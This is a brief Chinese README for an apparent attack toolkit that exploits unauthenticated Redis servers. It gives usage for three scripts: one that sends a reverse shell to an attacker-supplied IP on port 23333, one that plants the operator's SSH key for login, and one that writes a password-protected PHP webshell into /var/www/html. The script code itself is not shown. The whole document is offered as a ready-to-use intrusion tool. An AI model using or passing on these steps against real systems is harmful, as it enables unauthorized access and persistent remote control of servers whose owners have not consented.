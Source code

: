 # redis未授权访问利用
需要本地先提前安装好redis服务
## 演示

![](1.gif)

## shell.sh

用法

```
./shell.sh [redis-ip] [redis端口] [接收shell的ip]
```

默认端口为23333

## ssh.sh

用法

```
./ssh.sh [redis-ip] [redis端口]
```

要提前在本地`.ssh`目录用`ssh-keygen -t rsa`生成一对密钥

然后用私钥登录即可



## webshell.sh

用法

```
./webshell.sh [redis-ip] [redis端口]
```

会在`/var/www/html`目录下生成shell.php一句话，默认密码redis



## 一些问题

由于`flushall`破坏性太大，没写入脚本中。

在原先存在一些数据的时候会影响成功率，需要的自行添加
